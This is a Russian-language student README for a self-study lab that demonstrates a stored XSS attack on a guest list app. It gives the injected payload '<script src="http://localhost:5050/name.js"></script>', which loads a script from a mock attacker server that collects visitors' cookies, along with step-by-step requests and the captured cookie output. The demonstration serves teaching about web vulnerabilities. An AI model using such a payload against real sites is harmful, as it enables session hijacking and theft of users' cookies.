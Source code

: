 # web
Автор: Конев Денис

## Описание
самостоятельна работа: пример XSS атаки

## Использование
Пользыватели вводят своё имя и могут увидеть имена других пользывателей. При этом, нехороший человек может ввести вместе с именем и скрипт, который не будет виден но будет выполнятся, отправляя cookie пользывателей злаумышлиникам. Для этого он вводит такой скрипт после имени: 
<script src="http://localhost:5050/name.js"></script>
В результате все пользываетели которые решили посмотреть список гостей, отправят ссвои cookie злаумышлиникам, сами того не зная.

## Комментарии
localhost:5050 это сервер злоумышленника.
выполняем следующие действия для проверки работы:
- запускаем оба сервера
- открываем браузер в режиме Инкогнито (чтобы cookie были пустыми в самом начале)
- делаем запросы:
1) http://localhost:5005/form и вводим там любое имя в форму и отправляем
2) http://localhost:5005/form и вводим следующие: Имя<script src="http://localhost:5050/name.js"></script>
3) http://localhost:5005/form и вводим что угодно, и мы увидим, что серевер злаумышлинников получил cookie
4) http://localhost:5005/echo?message=Hello тем самым изменим cookie в нашем браузере (cookie не создаются рандомно, а одни если мы сходим на /form и другие если на echo?message=...)
5) http://localhost:5005/get?username=NAME тем самым мы не сменим cookie и увидим список посетителей, а значит, отправим наши cookie.
Мы видим в консоли сервера злоумышленника:
до 4) login get-successfully-cookie-secretum
полсе 4) login get-successfully-cookie-secretum; login=ok-echo
